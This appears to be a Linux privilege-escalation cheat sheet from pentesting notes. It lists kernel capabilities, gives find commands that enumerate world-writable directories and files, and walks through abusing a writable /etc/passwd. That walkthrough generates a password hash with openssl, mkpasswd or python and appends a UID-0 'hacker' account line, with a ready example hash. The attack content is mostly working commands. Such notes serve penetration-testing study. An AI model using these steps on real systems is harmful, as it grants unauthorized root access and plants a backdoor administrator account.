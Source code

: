 <table><thead><tr><th width="246">Capabilities name</th><th>Description</th></tr></thead><tbody><tr><td>CAP_AUDIT_CONTROL</td><td>Allow to enable/disable kernel auditing</td></tr><tr><td>CAP_AUDIT_WRITE</td><td>Helps to write records to kernel auditing log</td></tr><tr><td>CAP_BLOCK_SUSPEND</td><td>This feature can block system suspends</td></tr><tr><td>CAP_CHOWN</td><td>Allow user to make arbitrary change to files UIDs and GIDs</td></tr><tr><td>CAP_DAC_OVERRIDE</td><td>This helps to bypass file read, write and execute permission checks</td></tr><tr><td>CAP_DAC_READ_SEARCH</td><td>This only bypasses file and directory read/execute permission checks</td></tr><tr><td>CAP_FOWNER</td><td>This enables bypass of permission checks on operations that normally require the filesystem UID of the process to match the UID of the file</td></tr><tr><td>CAP_KILL</td><td>Allow the sending of signals to processes belonging to others</td></tr><tr><td>CAP_SETGID</td><td>Allow changing of the GID</td></tr><tr><td>CAP_SETUID</td><td>Allow changing of the UID</td></tr><tr><td>CAP_SETPCAP</td><td>Helps to transferring and removal of current set to any PID</td></tr><tr><td>CAP_IPC_LOCK</td><td>This helps to lock memory</td></tr><tr><td>CAP_MAC_ADMIN</td><td>Allow MAC configuration or state changes</td></tr><tr><td>CAP_NET_RAW</td><td>Use RAW and PACKET sockets</td></tr><tr><td>CAP_NET_BIND_SERVICE</td><td>SERVICE Bind a socket to internet domain privileged ports</td></tr></tbody></table>

## Writeable Directories

```bash
find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null
```

## Writable files

List world writable files on the system.

```bash
find / -writable ! -user `whoami` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null
find / -perm -2 -type f 2>/dev/null
find / ! -path "*/proc/*" -perm -2 -type f -print 2>/dev/null
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```

### Writable /etc/passwd

{% embed url="https://infinitelogins.com/2021/02/24/linux-privilege-escalation-weak-file-permissions-writable-etc-passwd/" %}

First generate a password with one of the following commands.

```bash
openssl passwd -1 -salt hacker hacker
openssl passwd newPassword
mkpasswd -m SHA-512 hacker
python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'
```

Then add the user `hacker` and add the generated password.

```bash
hacker:GENERATED_PASSWORD_HERE:0:0:Hacker:/root:/bin/bash
```

E.g: `hacker:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash`
